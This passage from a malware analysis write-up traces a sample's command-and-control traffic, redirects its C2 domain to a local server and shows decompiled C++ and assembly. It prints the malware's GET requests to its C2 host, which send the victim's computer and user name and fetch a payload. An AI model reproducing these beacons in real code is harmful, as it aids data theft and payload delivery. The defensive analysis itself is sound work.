 Threat actors don't often realize that the omission of the *User-Agent* header makes the communication identifiable amongst legitimate browsing traffic. Not only this, but they are using *&&* for additional URI parameters. The standard is to use only one *&*, making this even more identifiable. It is common practice to pick on these mistakes and write very effective detection.

By using *dnsmasq* to change the C2 domain IP address it will allow us to write our own C2 server code to interact with the malware. Using *nslookup* we can confirm the C2 domain is now resolving to a local IP address we control.

```text
PS C:\Users\malware> nslookup subscribe.tomcruefrshsvc.com
Name:    subscribe.tomcruefrshsvc.com
Address:  10.0.2.1
```

Once the malware has sent its C2 checkin, it will then check the response for the first occurance of the *\<ComputerName\>\<Username\>* that it sent using *[strstr](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strstr-wcsstr-mbsstr-mbsstr-l?view=msvc-170)*.

```cpp
pcResult = strstr(C2Response,&ComputerNameUsername);
if (pcResult != (char *)NULL) {
	// <c2-ops-here>
}
```

After this has completed, it will parse between the double quotes for a process name. If a process name is provided, it will check to see if that process is currently running. If it is running, it will respond to the C2 server with the following response.

```http
GET /VcvNbtgRrPopqSD/SzWvcxuer/sDeRcEwwQaAsSN.php?txt=RNGZxxZexplorerZxxZMALWARE-PCmalware HTTP/1.1
Host:subscribe.tomcruefrshsvc.com
Connection: close
```

The format is *RNG\<delimiter\>\<process-name\>\<delimiter\>\<computername\>\<username\>*.  Interestingly, *RNG* is hardcoded and stored as a scalar operand in little endian.

```asm
mov dword ptr [CHAR_ARRAY_00407950], 0x474e52
```

If the process is not running, it will perform the following request.

```http
GET /VcvNbtgRrPopqSD/WqeC812CCvU/<payload> HTTP/1.1
Host:subscribe.tomcruefrshsvc.com
Connection: close
```

It will then create the folder *%AppData%\\Local\\Debug*. If unsuccessful, it will instead create the directory *C:\\<username\>\\Templates*.

```cpp
hResult = SHGetFolderPathA((HWND)NULL, CSIDL_LOCAL_APPDATA, (HANDLE)NULL, NULL, pszPath);
if (hResult == NULL) {
	strcat_s(pszPath,250,"\\");
    strcat_s(pszPath,250,"Debug");
    _mkdir(pszPath);
} else {
	hResult = SHGetFolderPathA((HWND)NULL,CSIDL_TEMPLATES,(HANDLE)NULL,NULL,pszPath);
	if (hResult != 0) {
		return 0;
	}
}
```
